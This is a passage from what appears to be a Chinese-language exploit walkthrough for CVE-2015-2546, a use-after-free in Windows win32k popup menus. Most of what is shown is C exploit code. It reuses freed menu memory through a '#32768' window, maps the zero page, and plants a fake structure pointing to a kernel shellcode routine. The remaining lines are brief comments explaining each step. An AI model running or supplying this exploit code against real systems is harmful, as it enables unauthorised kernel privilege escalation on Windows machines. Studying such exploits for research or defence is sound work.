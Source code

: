 ```
        }
    }
 
    // 创建窗口对象，该窗口的tagPOPMENU会占用上面释放的双数的内存块
    g_hWnd = CreateWindowExA(0,
                             "#32768",
                             NULL,
                             0,
                             -1, -1,
                             0, 0,
                             NULL,
                             NULL,
                             NULL,
                             NULL);
 
    if (!g_hWnd)
    {
        ShowError("CreateWindowExA #32768", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    if (!SetWindowLongA(g_hWnd, GWL_WNDPROC, (ULONG)DefaultMenuProc_2015_2546))
    {
        ShowError("SetWindowLongA", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    // 在0地址申请内存成功
    if (!AllocateZeroMemory())
    {
        bRet = FALSE;
        goto exit;
    }
 
    *(DWORD*)(0xD) = GetPtiCurrent_2015_2546();
    *(BYTE*)(0x1B) = (BYTE)4;
    *(DWORD*)(0x65) = (DWORD)ShellCode_2015_2546;
 
exit:
    return bRet;
}
```  
  
  
菜单窗口的处理例程，则应该如下所示：  
```
LRESULT CALLBACK MenuWndProc_2015_2546(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    LPACCEL lpAccel = NULL;
 
    if (uMsg == 0x1EB)
    {
        return (LONG)g_hWnd;
    }
    else if (uMsg == 0x1F0)
    {
        if (g_hWnd != NULL)
        {
            // #32768窗口进行销毁,tagPopupMenu被释放
            if (!DestroyWindow(g_hWnd))
            {
                ShowError("DestroyWindow", GetLastError());
```